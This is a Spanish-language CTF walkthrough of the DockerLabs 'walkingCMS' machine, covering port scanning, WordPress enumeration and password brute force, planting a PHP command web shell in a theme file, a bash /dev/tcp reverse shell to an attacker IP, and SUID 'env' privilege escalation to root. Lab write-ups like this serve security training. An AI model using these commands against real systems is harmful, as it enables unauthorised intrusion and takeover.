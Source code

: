 # walkingCMS

#### Descripción:

Pequeño CTF en modo **easy** de dockerlabs.

#### Enlaces:

[Descarga](https://mega.nz/file/hSF1GYpA#s7jKfPy1ZXVXpxFhyezWyo1zCUmDrp7eYjvzuNNL398)
[Dockerlabs](https://dockerlabs.es/)

---

## Reconocimiento

Entendemos que la máquina se encuentra desplegada en nuestra red (este caso es docker) y ya tendríamos una manera de identificar la ip del target. Por lo que se podría clasificar como un reconocimiento pasivo.

![enter image description here](https://i.imgur.com/3XmtBs3.png)

---

## Escaneo

Bueno primeramente deberíamos tirarnos un escaneo general, en este caso usaremos el gran **nmap** donde estaremos revisando los servicios ejecutándose en los puertos del **target** y así tener un panorama más amplio sobre nuestra máquina.

    nmap -p- --open -sC -sC -sV --min-rate 5000 -n -Pn 172.17.0.2

Entendemos por **target** la IP de nuestra máquina víctima, que en este caso sería **172.17.0.2**

![enter image description here](https://i.imgur.com/1WvtOWR.png)

### Resultados del escaneo

Podremos observar que esta máquina tiene un puerto **80/tcp open http** lo que indicaría que hay una página web ejecutándose en este puerto. Podríamos acceder por medio de `http://172.17.0.2` y verificar que hay un servicio web en efecto.

![enter image description here](https://i.imgur.com/RAoQPtY.png)

---

### Enumeración

Lo bacano de ahora es identificar qué posibles subdirectorios podriamos usar para entrar o explotar vulnerabilidades en nuestro target, en esta ocasión se utiliza gobuster para encontrar rutas interesantes.

    gobuster dir -u "http://172.17.0.2" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 20 -x php,txt,html,php.bak

**Nota**: Podríamos tener en cuenta las siguientes consideraciones antes de usar el gobuster:

- La seclists es un directorio genérico de diccionarios que se pueden instalar en parrot y kali utilizando `sudo apt install seclists`
- -x es para definir las extensiones que queremos encontrar al escanear la web.

![enter image description here](https://i.imgur.com/Acs91Dy.png)

Después de la ejecución del comando el gobuster arroja algunos directorios, en este caso podemos identificar uno que nos informa que hay un CMS de wordpress ejecutándose en `http://172.17.0.2/wordpress` por lo que si nos dirigimos al enlace visualizaremos una página de inicio.
![enter image description here](https://i.imgur.com/qAyX6Nu.png)

Desde aquí pueden haber diferentes maneras de abordar esta situación, personalmente se tomó la desición de hacer un escaneo, primero con wpscan para identificar vulnerabilidades. A continuación:

    wpscan --url "http://172.17.0.2/wordpress" --enumerate u, vp

![enter image description here](https://i.imgur.com/inH5Nxo.png)
![enter image description here](https://i.imgur.com/tSSdBwY.png)

Utilizar algun script con payloads personalizados o desde metasploit también sería una buena opción, para aprovechar el **xmlrpc** ya que practicamente es un fósil que presenta riesgos de seguridad.
Se identificó también que hay un tema activo y es el **twenty twentytwo**, algo que podría ser utilizado para explotar o algún plugin que tenga sus fallas o malas configuraciones a simple vista. En este caso el theme parece ser accessible desde una ruta en el navegador.
Por otro lado, hay un usuario llamado "mario" que podría resultar útil en un ataque de fuerza bruta, es por esto que se decide escanear nuevamente con el **wpscan** y añadirle nuevos parámetros como un diccionario de combinaciones de passwords como lo es rockyou y un usuario.

    wpscan --url "http://172.17.0.2/wordpress" --enumerate u, vp --passwords /home/criollo/rockyou.txt --usernames mario --random-user-agent

![enter image description here](https://i.imgur.com/CQAVinl.png)

Con un ataque automático de brute force realizado por el wpscan y utilizando nuestro diccionario de combinaciones obtenemos la contraseña.
Si analizamos nuevamente con el gobuster pero utilizando el directorio de wordpress, encontraríamos otros resultados que nos ayudarían a conseguir la forma de loguear o utilizar las credenciales que obtuvimos.

![enter image description here](https://i.imgur.com/MfPg9z8.png)

---

## Explotación

A continuación, podremos notar que:

    http://172.17.0.2/wordpress/wp-login.php

Es una ruta que parece llevarnos al inicio de sesión de nuestro Wordpress, si intentamos con las credenciales y obtenemos acceso a la dashboard de la plataforma.
![enter image description here](https://i.imgur.com/Tcr1UUP.png)

Directamente se tuvo muy encuenta la revelación del wpscan con respecto al tema twenty twenty por lo que al saber que se puede acceder desde `http://172.17.0.2/wordpress/themes/twentytwentytwo/index.php`
Podriamos usarlo para realizar una reverse shell editando el index.php, para eso dentro de la dashboard se posiciona en `Apariencia>Theme Code Editor`, luego se ubica el index.php y se editar, reemplazando el código original por un código php básico donde se reciba el query param **cmd**, una vez lo modifiquemos, le damos a **Update File** y ya podríamos acceder a la ruta del tema utilizando parámetros que en esta ocasión sería cmd=COMANDO.
![enter image description here](https://i.imgur.com/diWBn6X.png)

Un claro ejemplo de esto sería ejecutar un comando a nivel de terminal en linux (esta máquina es debian) como es el `ls` y obtener algo como:

![enter image description here](https://i.imgur.com/XZDGpMy.png)

### Reverse shell

Debido a que funciona, se puede utilizar un código en bash para ejecutar una reverse shell que nos permita establecer conexión desde shell. En este caso podríamos usar la de bash encontrada en [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), donde la IP será de nuetra máquina atacante al igual que el puerto de escucha.

Ejemplo:

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

Aplicado sería:

    http://172.17.0.2/wordpress/themes/twentytwentytwo/index.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.0.0.1/443 0>%261"

**Notas**:

- Con el código de `%26`reemplazamos a la **&** y mejoramos la inyección de comando evitando errores.
- Se utilizó el puerto 443 en lugar del 8080
- Antes de ejecutar el webshell se utilizó netcat para ponerse a la escucha con el puerto designado `sudo nc -lvnp 443`

Luego de ejecutar el comando en la Web shell, conseguimos establecer conexión con nuestra máquina.
![enter image description here](https://i.imgur.com/dpYnHCI.png)

### Escalar privilegios

Moviéndose al `/home`se pueden buscar archivos en la raíz que permitan ser explotados o ejecutados para conseguir el `root`de la máquina.

    find / -perm -4000 2>/dev/null

![enter image description here](https://i.imgur.com/3lkIOGD.png)

Buscando en [GTFObins](https://gtfobins.github.io/gtfobins/env/) , `env` podría ser explotado de la siguiente manera con SUID obteniendo escalada de privilegios:

```
sudo install -m =xs $(which env) .

./env /bin/sh -p
```

Por lo que si lo aplicamos a nuestra máquina...
![enter image description here](https://i.imgur.com/HAivnyT.png)

Logramos comprometerla y obtener el usuario root.
